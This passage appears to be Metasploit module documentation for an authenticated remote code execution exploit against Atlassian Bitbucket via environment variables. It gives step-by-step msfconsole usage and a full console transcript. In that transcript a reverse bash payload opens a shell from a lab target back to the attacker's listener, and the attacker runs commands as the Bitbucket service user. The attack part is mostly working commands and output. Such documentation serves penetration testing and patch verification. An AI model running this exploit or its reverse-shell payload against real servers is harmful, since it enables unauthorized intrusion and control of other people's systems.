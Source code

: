 18. Finally, set up an administrator account

*Note*: If an error occurs on the last step, just open a browser and navigate to the setup
page at 127.0.0.1:7990. If installing an 8.* version of Bitbucket, you will need to create
a `bitbucket.properties` file at `/var/atlassian/application-data/bitbucket/shared`. Once created,
add the line `mesh.enabled=false`, save the file, and restart Bitbucket.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/bitbucket_env_var_rce`
4. Do: `set USERNAME <username>`
5. Do: `set PASSWORD <pass>`
6. Do: `run`
7. You should get a shell.

## Options

### USERNAME

Username to authenticate with and has at least admin privileges

### PASSWORD

Password to authenticate with

## Scenarios

### Ubuntu 22.04 x64 - Bitbucket `v7.6.17`, CMD Target

```
msf6 > use exploit/multi/http/bitbucket_env_var_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.149
rhost => 192.168.140.149
msf6 exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set username test
username => test
msf6 exploit(multi/http/bitbucket_env_var_rce) > set password password
password => password
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Project creation was successful
[+] Successfully created repository 'fjNMKiB'
[+] Commits added: 9e03047ab0802438c2058e49ec757a7be8d222eb, f7683fcc92840ff94e609c8b0a99e165edb5aa7d
[*] Sending payload
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.149:41118) at 2023-03-13 14:04:00 -0500
[*] Changing user name back to 'test'
[+] Repository has been deleted
[+] Project has been deleted

uname -a
Linux gitlab-virtual-machine 5.15.0-58-generic #64-Ubuntu SMP Thu Jan 5 11:43:13 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=1001(atlbitbucket) gid=1001(atlbitbucket) groups=1001(atlbitbucket)
```